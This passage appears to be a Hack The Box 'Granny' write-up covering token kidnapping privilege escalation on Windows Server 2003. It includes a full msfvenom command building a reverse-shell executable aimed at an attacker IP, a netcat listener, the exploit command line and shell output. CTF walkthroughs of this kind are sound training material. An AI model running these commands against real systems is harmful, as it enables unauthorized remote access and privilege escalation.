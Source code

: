 We have several privileges, including `SeImpersonatePrivilege`... there's
probably a way to exploit that!

My first idea was obviously the Windows potatoes, which are designed to exploit
this kind of privileges, but it turns out that they are not meant to be run on
such an old Windows version. There's actually another way to exploit this
privilege on Windows Server 2003, which you can find at
[Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705).

## Privilege escalation (Token kidnapping)

Token kidnapping is a type of privilege escalation vulnerability that allows an
attacker to gain control of a server. He can escalate his privileges on a system
if controls the `SeImpersonatePrivilege` token of a Windows service account.

### Preparation

The [ExploitDB page](https://www.exploit-db.com/exploits/6705) gives us a PoC. I
tried to compile it on a recent Visual Studio version, but it failed.
Thankfully, SQLNinja has a pre-compiled binary, which you can find at
`/usr/share/sqlninja/apps/churrasco.exe` if you are using Kali Linux.

I'll save it as `token_kidnapping.exe`, and I'll transfer it to Granny.

Now the exploit is on the machine. However, we still need to come up with a
payload to use with it!

I want to obtain a reverse shell, so I'll use `msfvenom` to create an executable
for that.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9002" -f "exe" -o "/workspace/server/revshell.exe"
```

Once again, I'll transfer it to Granny.

The last thing to do is starting a listener on port `9002` to receive the
connection.

```sh
❯ rlwrap nc -lvnp "9002"
```

Now we should be ready to go!

### Exploitation

Let's use our exploit to obtain an elevated shell.

```bat
c:\windows\system32\inetsrv> C:\tmp\token_kidnapping.exe "C:\tmp\revshell.exe"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.15] 1035
<SNIP>
C:\WINDOWS\TEMP>
```
